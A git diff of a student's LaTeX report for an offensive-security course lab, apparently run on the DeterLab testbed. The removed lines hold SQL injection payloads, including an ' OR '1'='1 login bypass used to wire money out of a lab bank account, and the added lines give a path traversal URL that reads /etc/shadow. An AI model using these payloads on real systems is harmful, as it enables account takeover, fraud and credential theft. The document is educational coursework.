

Before and after one commit to mfranzil-unitn/unitn-m-ot, a LaTeX document (03-pathname/instructions/instructions.tex): part of page 1 of 2, cut at the place of the change. Compiled offline with pdfLaTeX.

Commit message:
03-path exercise and fine for now

```diff
--- a/03-pathname/instructions/instructions.tex
+++ b/03-pathname/instructions/instructions.tex
@@ -81,7 +81,7 @@
 
 \newpage
 
-\title{SQL injection exercise}
+\title{Pathname exercise}
 \author{Offensive Technologies 2021 \\
 Matteo Franzil \texttt{<matteo.franzil@studenti.unitn.it>}}
 \maketitle
@@ -91,25 +91,9 @@ Matteo Franzil \texttt{<matteo.franzil@studenti.unitn.it>}}
 To solve the exercise, I first connected with SSH tunneling to the main server:
 
 \begin{verbatim}
-ssh -L 8118:server.franzil-sqli.offtech:80 otech2af@users.deterlab.net
+ssh -L 8118:server.franzil-pathame.offtech:80 otech2af@users.deterlab.net
 \end{verbatim}
 
-With port forwarding now enabled, I visited the website on my browser and solved the points. All SQL injections shown here use the user ID field, whereas the password one was filled with random gibberish (required by the code, but not used).
+With port forwarding now enabled, I visited the website on my browser (\url{http://localhost:8118/cgi-bin/memo.cgi}).
 
-\begin{enumerate}
-  \item Show how you can log into a single account without knowing any id numbers ahead of time.
-  \begin{code}{Code for the first point.}
-    ( SELECT max(id) FROM accounts LIMIT 1 );--
-  \end{code}
-  \item Show how you can log into every account (one at a time) without knowing any id numbers ahead of time.
-  \begin{code}{Code for the second point.}
-    ( SELECT id FROM accounts LIMIT 1 OFFSET n);--
-  \end{code}
-  \item Make some account (your choice) wire its total balance to the bank with routing number: 314159265 and account number: 271828182845
-  \begin{code}{Code for the third point. With this, we get access to a random account.}
-    ( SELECT id FROM accounts LIMIT 1 OFFSET 20);--
-  \end{code}
-  We get access to Camille Cantu's account, with id \verb=211=. We can now get access and avoid future password checks with \verb=211= as user ID and \verb|' OR '1'='1| as password. This is required since wiring balances does a password check, and so we need the code not to bother about our lack of knowledge about the password. The screenshot section shows a successful wire transfer with this account.
-  \item Explain why you can't create a new account or arbitrarily update account balances (or show that you can).
-  Due to how the code is written - more specifically, the \verb=mysqli.query= method, it cannot accept more than a query per statement. This limits the potentials of attacks, and only allows query modification rather than fully query injection. So, in short, no update, no drops, and else. Just to be sure, we can try to inject this:
-  \begin{code}{Code for our tentative injection.}
+Solving the exercise is trivial if the Unix directory structure is known. Assume we want to visit any memo in the website. We are given a nice interface with a dropdown menu, but we can skip it altogether by visiting the Developer Tools with \verb=F12= and converting the form data into a query string:
@@ -129 +100,2 @@ With port forwarding now enabled, I visited the website on my browser and solved
 
+\begin{figure}[h!]
@@ -147,6 +102,25 @@ Some screenshots are included in this section.
   \centering
-  \includegraphics[width=0.5\textwidth]{../drawable/random-guy-1}
-  \caption{Example of homepage of a random employee.}
+  \includegraphics[width=0.5\textwidth]{../drawable/devtools}
+  \caption{Visiting the Developer Tools for converting the string.}
 \end{figure}
 
-\begin{figure}[hb!]
+So, for example, we can send this string in order to get our nice boss's welcoming memo:
+
+\begin{code}{HTTP string for obtaining a memo.}
+http://localhost:8118/cgi-bin/memo.cgi?memo=%2Fhome%2Fmegaboz%2Fmemo%2Fnew_CEO
+  &Read+memo=Read+memo
+\end{code}
+
+As stated above, it looks like our query string is visiting what is actually the path \verb=/home/= \verb=megaboz/memo/....=. Even by being totally unaware of the underlying Perl code, we can abuse that notation by using directory skips (\verb=..=), going back to our root directory (\verb=/=), and visiting \verb=/etc/shadow/=.
+
+\begin{code}{Code for exploiting the vulnerability.}
+http://localhost:8118/cgi-bin/memo.cgi
+  ?memo=%2Fhome%2Fmegaboz%2Fmemo%2F%2E%2E%2F%2E%2E%2F%2E%2E%2Fetc%2Fshadow
+  &Read+memo=Read+memo
+
+# Readable version:
+
+http://localhost:8118/cgi-bin/memo.cgi
+  ?memo=/home/megaboz/memo/../../../etc/shadow
+  &Read+memo=Read+memo
+\end{code}
```
Also changed, not shown: 02-sqli/instructions/instructions.tex (+1 -1 lines), 03-pathname/memo/memo.tex (+14 -3 lines), 03-pathname/drawable/devtools.png (added), 03-pathname/drawable/result.png (added), 03-pathname/instructions/instructions.pdf (added), 03-pathname/memo/memo.pdf (added), 03-pathname/instructions/instructions.tex (49 more changed lines), 4 other files.
